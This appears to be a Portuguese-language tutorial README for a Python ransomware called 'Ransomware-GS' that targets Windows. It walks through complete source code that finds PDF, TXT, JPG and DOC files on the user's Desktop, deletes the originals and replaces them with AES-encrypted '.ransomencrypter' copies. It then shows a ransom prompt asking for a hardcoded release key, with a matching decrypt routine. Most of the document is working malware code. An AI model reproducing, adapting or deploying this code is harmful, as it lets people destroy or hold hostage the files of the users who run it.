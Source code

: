 # Ransomware-GS
 Descrição do funcionamento do ransomware
Esse ransomware foi feito para funcionar em windows.
 Primeiramente precisamos fazer os imports necessários 
 
import os  # sistema operacional
import glob  # busca os arquivos
import time
import pyaes  # biblioteca de criptografia aes
 
from pathlib import Path  # pathlib utilizada para setar os caminhos
Após fazer os imports podemos começar a programar o código propriamente dito.
 
Aqui nós estamos listando as extensões dos tipos de arquivos que queremos criptografar, e exibir a mensagem que estamos criptografando.
lst_arqui = ['*.pdf', '*.txt', '*.jpg', '*.doc', ]
print('Criptografando')
time.sleep(3)
 
Aqui estamos confirmando que os arquivos que tem que ser criptografados existem, nesse código eu escolhi criptografar os arquivos existentes no desktop.
try:
    desktop = Path.home() / "Desktop"
except Exception:
    pass
os.chdir(desktop)
 
Aqui é onde a criptografia ocorre, esse é o núcleo do nosso código, primeiro de tudo ele vai abrir os arquivos que foram identificados anteriormente, usando o ‘rb’ que significa read binary ou seja ele está lendo os bytes daquele arquivo, depois disso ele remove os arquivos do desktop e os criptografá, usando a chave de criptografia definida por meio do pyaes utilizando o AES para criptografar o arquivo, o AES é extremamente simples de ser utilizado por isso ele foi a escolha para esse código, e depois de criptografado os arquivos retornam para o desktop como .ransomencrypter
 
def criptografando():
    for files in lst_arqui:
        for format_file in glob.glob(files):
            print(format_file)
            f = open(f'{desktop}\\{format_file}', 'rb')  # rb = read binary e wb = write binary
            file_data = f.read()
            f.close()
            os.remove(f'{desktop}\\{format_file}')
            key = b"1ab2c3e4f5g6h7i8"  # 16 byts key - chave
            aes = pyaes.AESModeOfOperationCTR(key)  # gera a criptografia
            crypto_data = aes.encrypt(file_data)
            # Salvando arquivo novo (.ransomencrypter)
            new_file = format_file + ".ransomencrypter"
            new_file = open(f'{desktop}\\{new_file}', 'wb')
            new_file.write(crypto_data)
            new_file.close()
 
Este é o nosso descrypt ele é o responsável por fazer o processo inverso ao anterior e descriptografar o arquivo, primeiro ele checa se os arquivos são um .ransomencrypter e os le e então utilizando a chave ele descriptografa os arquivos e retorna eles para o estado anterior como se nada tivesse acontecido
 
def descrypt(decrypt_file):
    try:
        for file in glob.glob('*.ransomencrypter'):
            keybytes = decrypt_file.encode()
            name_file = open(file, 'rb')
            file_data = name_file.read()
            dkey = keybytes
            daes = pyaes.AESModeOfOperationCTR(dkey)  # gera a decriptografia
            decrypt_data = daes.decrypt(file_data)
            format_file = file.split('.')
            new_file_name = format_file[0] + '.' + format_file[1]
            dnew_file = open(f'{desktop}\\{new_file_name}', 'wb')
            dnew_file.write(decrypt_data)
            dnew_file.close()
    except ValueError as err:
        print('Chave inválida')
 
Aqui é onde a mensagem de criptografia é exibida assim que os arquivos forem encriptados e pede pela chave de liberação 'Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:', se a chave estiver correta ele descriptografa os arquivos e se ela não estiver correta ele exibe a mensagem 'Chave de liberação inválida.', e caso ela esteja correta o código se encerra. 
 
 
 
if __name__ == '__main__':
    criptografando()
    if criptografando:
        key = input('Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:')
        if key == '1ab2c3e4f5g6h7i8':  # confirma se a chave de descriptografia foi colocada corretamente e entãos descriptografa
            descrypt(key)
            for del_file in glob.glob('*.ransomencrypter'):
                os.remove(f'{desktop}\\{del_file}')
        else:
            print('Chave de liberação inválida.')

